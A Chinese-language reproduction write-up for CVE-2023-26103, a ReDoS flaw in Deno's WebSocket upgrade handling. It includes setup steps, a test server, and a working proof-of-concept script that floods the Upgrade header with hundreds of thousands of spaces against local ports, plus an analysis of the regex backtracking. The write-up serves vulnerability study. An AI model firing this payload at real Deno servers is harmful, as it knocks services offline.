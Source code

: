 ```yaml
---
title: CVE-2023-26103
---
```


# CVE-2023-26103


<Metadata author="swwind" time="2023-6-12" />

Deno 是开源的一个简单、现代且安全的 JavaScript 和 TypeScript 运行环境。它使用 V8 并使用 Rust 构建。

Deno 1.31.0 之前版本存在安全漏洞，该漏洞源于容易受到正则表达式拒绝服务(ReDoS)攻击。

## 漏洞详情信息表

|  漏洞名称  |     Deno 安全漏洞      |
| :--------: | :--------------------: |
| CNNVD 编号 |   CNNVD-202302-2012    |
|  CVE 编号  | [CVE-2023-26103][nist] |
|    厂商    |       个人开发者       |
|  危害等级  |          中危          |
|  漏洞类型  |      拒绝服务攻击      |

## 系统和软件环境配置详情信息表

- deno v1.30.3

## 漏洞还原详细步骤

1. 使用 `mkdir CVE-2023-26103` 创建新文件夹。
2. 使用 `wget https://github.com/denoland/deno/releases/download/v1.30.3/deno-x86_64-unknown-linux-gnu.zip` 下载含有缺陷的 deno 版本。
3. 使用 `unzip deno-x86_64-unknown-linux-gnu.zip` 解压可执行文件 `deno` 到当前目录。
4. 运行 `./deno --version` 查看当前版本。

![](/assets/exploits/figure3/fig1.png)

## 漏洞测试或验证详细步骤

### 编写代码

按照官方教程提供的样例，编写一个简单的 WebSocket 服务器 `server.ts`。

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

const server = Deno.listen({ port: 8080 });

for await (const conn of server) {
  handle(conn);
}
```

上面这段代码会监听本地 `8080` 端口，并且提供 WebSocket 协议。

使用 `./deno run --allow-net server.ts` 可以成功启动我们的 WebSocket 服务器。

### 验证漏洞

`Deno.upgradeWebSocket` 中含有如下代码：

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

其中包含了一个带有缺陷的正则表达式，其匹配的复杂度最坏可以达到 $O(n^2)$。

要想利用这个缺陷，我们可以直接构造一个带有数百万个空格的 `Upgrade` HTTP 头的请求即可。

下面是用于攻击的代码，我们将其保存为 `evil.ts`。

```js
const evil = "X" + " ".repeat(300000) + "Y";

await fetch("http://localhost:8080/", {
  headers: {
    Upgrade: evil,
  },
});
```

上面这段代码发送了一个 HTTP 请求，其中 Upgrade 头的值是一个 `X` 和三十万个空格再加上一个 `Y`，足以使得目标正则表达式难以计算出结果。

我们使用 `./deno run --allow-net evil.ts` 发送请求，可以看到系统占用明显上升。

![](/assets/exploits/figure3/fig2.png)

上图中可以明显看到有一个 CPU 达到 100% 占用。

### 更大规模测试

得益于 JavaScript 语言的单线程性，无论我们同时发起多少个请求，都只会有一个 CPU 资源被消耗。

因此我们尝试修改代码，使得一个服务器可以同时支持 16 个请求同时访问。

修改 `server.ts` 如下

```js
for (let i = 0; i < 16; ++i) {
  const worker = new Worker(new URL("./worker.ts", import.meta.url).href, {
    type: "module",
  });
  worker.postMessage({ port: 8080 + i });
}
```

接下来创建文件 `worker.ts` 如下

```js
async function handle(conn: Deno.Conn) {
  const httpConn = Deno.serveHttp(conn);
  for await (const e of httpConn) {
    const { socket, response } = Deno.upgradeWebSocket(e.request);
    socket.onopen = () => socket.send("Hello World!");
    socket.onmessage = (e) => {
      console.log("WebSocket Message:", e.data);
      socket.close();
    };
    socket.onclose = () => console.log("WebSocket has been closed.");
    socket.onerror = (e) => console.error("WebSocket error:", e);
    e.respondWith(response);
  }
}

async function createServer(port: number) {
  const server = Deno.listen({ port });

  for await (const conn of server) {
    handle(conn);
  }
}

self.onmessage = (e) => {
  const { port } = e.data;
  createServer(port);
  console.log(`listen on http://localhost:${port}/`);
};
```

接着使用 `./deno run --allow-net --allow-read server.ts` 启动服务器，可以看到程序按顺序监听了 16 个端口。

![](/assets/exploits/figure3/fig3.png)

接着修改 `evil.ts` 如下

```js
const evil = "X" + " ".repeat(300000) + "Y";

for (let i = 0; i < 16; ++i) {
  const port = 8080 + i;
  console.log(`sending request to :${port}`);
  fetch(`http://localhost:${port}/`, {
    headers: {
      Upgrade: evil,
    },
  });
}
```

使用 `./deno run --allow-net evil.ts`，可以看到主机占用立刻达到了 100%。

![](/assets/exploits/figure3/fig4.png)

### 漏洞分析

造成漏洞的原因在于上文中提到的一句话

```js
req.headers.get("upgrade").split(/\s*,\s*/);
```

这句话中我们读取了 HTTP 头部中的 `Upgrade` 字段，并将其通过 `\s*,\s*` 正则表达式进行分割。

一般来说这句话对于正常的情况下不会出现任何问题，但是由于 `\s*` 是贪心地匹配所有可能的结果，因此如果我们构造了如上文中 `"X" + " ".repeat(300000) + "Y"` 的字符串，那么 `\s*,\s*` 会先贪心地从第一个空格开始匹配中间所有的空格，发现最后不是逗号并发生失配，接着回溯从第二个空格开始匹配接下来的所有空格，再次发现最后不是逗号并发生失配。如此这般，匹配的复杂度将会达到最差的 $O(n^2)$。

因此，我们通过构造的方式可以成功使得该正则表达式消耗大量的 CPU 运算，从而实现拒绝服务攻击。

[nist]: https://nvd.nist.gov/vuln/detail/CVE-2023-26103
